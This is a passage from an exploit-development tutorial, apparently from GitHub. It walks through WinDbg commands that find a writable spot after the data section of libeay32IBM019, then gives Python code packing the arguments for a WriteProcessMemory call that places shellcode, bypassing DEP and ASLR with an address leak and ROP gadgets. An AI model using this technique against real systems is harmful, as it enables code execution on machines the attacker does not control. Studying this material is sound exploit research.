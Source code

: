 We know that the offset to the data section is 0xD5000, and its size is 0xF018. Before using this address we must verify that the address does not have contents and that the memory protections are at least writable (we just need to store things, not execute them).
Data section size in disk is D200 (rawData) and the reserved memory size is F018, which is **higher than the disk size.**
Note: that we have free space from 0xF018 until 0xF000 + 0x1000 (the next memory page, **remember that sections are aligned to page space**). Thanks to the OS alignment we have space.

So we can write at libeay32IBM019 + data virtual address (d5000) + data virtual size (f018) BUT we will add 4 bytes more just to ensure that we do not override any value:

```c
0:077> ? libeay32IBM019 + d5000 + f018 + 4
Evaluate expression: 50216988 = 02fe401c

0:077> dd 02fe401c
02fe401c  00000000 00000000 00000000 00000000
02fe402c  00000000 00000000 00000000 00000000
02fe403c  00000000 00000000 00000000 00000000
02fe404c  00000000 00000000 00000000 00000000
02fe405c  00000000 00000000 00000000 00000000
02fe406c  00000000 00000000 00000000 00000000
02fe407c  00000000 00000000 00000000 00000000
02fe408c  00000000 00000000 00000000 00000000

0:077> !vprot 02fe401c
BaseAddress:       02fe4000
AllocationBase:    02f00000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000004  PAGE_READWRITE
Type:              01000000  MEM_IMAGE

0:077> ? 02fe401c - libeay32IBM019
Evaluate expression: 933916 = 000e401c
```

We just calculated the offset from this region to our module base address (0xe401c). 
Also we have seen that the protections are correct and that free space is available. Note that we only need a DWORD space.

Finally, we have all the arguments to supply to WriteProcessMemory.
Previously, when we used VirtualAlloc without an ASLR bypass, we had to generate and update all the function arguments (including the return value which is our shellcode, and API addresses) at runtime with ROP.

In this case is different; as we now have a function that can **be used to leak the address of any function, we can leak the address of WriteProcessMemory**. The rest of addresses that are dependent of the base address of our vulnerable module (an offset) can be just added without having to use ROP chains to update them.

As a result, we only need to dynamically update **two values with ROP**. We’ll update by using ROP:
- The address of the shellcode on the stack (because the stack address changes each time we execute the exploit due to common program behavior).
- The size of the shellcode, avoiding NULL bytes.
These would be the parameters we insert in the stack for the function call (note that we only need to change the dummy nSize and lpBuffer dinamically via ROP):
```c
wpm = pack("<L", (WPMAddr)) # WriteProcessMemory Address
wpm += pack("<L", (dllBase + 0x92c04)) # Shellcode Return Address
wpm += pack("<L", (0xFFFFFFFF)) # pseudo Process handle, -1 is 0xFFFFFFFF
wpm += pack("<L", (dllBase + 0x92c04)) # Code cave address
wpm += pack("<L", (0x41414141)) # dummy lpBuffer (Stack address)
wpm += pack("<L", (0x42424242)) # dummy nSize
wpm += pack("<L", (dllBase + 0xe401c)) # lpNumberOfBytesWritten
```